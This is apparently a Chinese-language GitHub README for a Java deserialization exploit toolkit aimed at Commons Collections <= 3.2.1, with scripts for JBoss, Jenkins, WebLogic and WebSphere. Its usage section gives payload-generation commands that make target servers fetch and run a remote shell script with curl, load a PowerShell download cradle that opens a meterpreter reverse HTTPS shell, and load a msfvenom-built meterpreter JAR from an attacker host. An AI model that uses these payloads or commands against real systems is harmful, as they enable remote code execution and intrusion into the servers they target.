


Java Untrusted Deserialization Exploits Tools
===

免责声明
---

本工具仅供学习与研究目的，请勿用于商业目的，如果因此有任何法律纠纷，与工具作者无任何关系。

文件说明
---

    .
    |____README.md
    |____exserial.jar     基于 CommonsCollections <= 3.2.1 的 Gadget 生成程序
    |____scripts
    | |____jboss.py       JBoss JMXInvokerServlet 利用脚本
    | |____jenkin.py      Jenkins CLI 利用脚本
    | |____weblogic.py    WebLogic 利用脚本
    | |____websphere.py   WebSphere 利用脚本

使用方法
---

`exserial.jar` 目前包含两种 Payload 生成模式：`CommandExec` 和 `ClassInject`

    $ java -jar exserial.jar
    Java Deserialize Exploit Gadget With (commons-collections <= 3.2.1)
    Usage: java -jar exserial.jar [module type]
        Available module types:
            CommandExec
            ClassInject

### 1. CommandExec 模式

用于直接在目标服务器上执行系统命令，可以根据不同的目标环境调整攻击配置：

    $ java -jar exserial.jar CommandExec
    Java Deserialize Exploit Gadget With (commons-collections <= 3.2.1)
    Usage: java -jar exserial.jar CommandExec [platform] [command to execute]
        Available platform types:
            Win
            Linux
            OSX
            
针对目标为 Linux 的系统，可以执行如下命令生成 Payload，使目标成功执行命令后加载我们指定的脚本文件进行执行：

    $ java -jar exserial.jar CommandExec Linux "curl http://myserver.com/todo.sh|/bin/sh" > demo1.ser
    
针对目标为 Windows 的系统，可以借助 Powershell 来获取 Shell 或者加载我们指定的脚本进行执行（下面为利用 [PowerSploit](https://github.com/PowerShellMafia/PowerSploit) 中的 `Invoke--Shellcode.ps1` 脚本反弹类型为 `windows/meterpreter/reverse_https` 的 Shell）：

    $ java -jar exserial.jar CommandExec Win "powershell IEX (New-Object Net.WebClient).DownloadString('http://myserver.com/CodeExecution/Invoke--Shellcode.ps1');Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 192.168.130.1 -Lport 4444 -Force" > demo2.ser
    

### 2. ClassInject 模式

用于使目标服务器动态加载我们指定的 JAR 包并执行指定类名的 `main` 方法。

例如，可以使用 `msfvenom` 生成基于 [Metasploit](https://github.com/rapid7/metasploit-framework) 框架的 `java/meterpreter/reverse_tcp` JAR 包：

    $ msfvenom --payload="java/meterpreter/reverse_tcp" LHOST=192.168.130.1 LPORT=4444 -t jar > java_meterpreter_reverse_tcp.jar
    
然后将 `java_meterpreter_reverse_tcp.jar` 包至于一服务上用于目标服务器进行加载，然后使用 `exserial.jar` 生成对应的 Payload：

    $ java -jar exserial.jar ClassInject "http://myserver.com/java_meterpreter_reverse_tcp.jar" "metasploit.Payload" > demo3.ser

更新记录
---

* 2015-12-12    增加 ClassInject Gadget 执行链生成类 和 反序列化本地测试类
* 2015-12-10    更新目录结构 & 修复 websphere.py 利用脚本 bug
* 2015-12-07    基于 CommonsCollections <= 3.2.1 Gadget 生成程序 exserial.jar（包含 jboss、jenkins、weblogic、websphere 利用脚本）
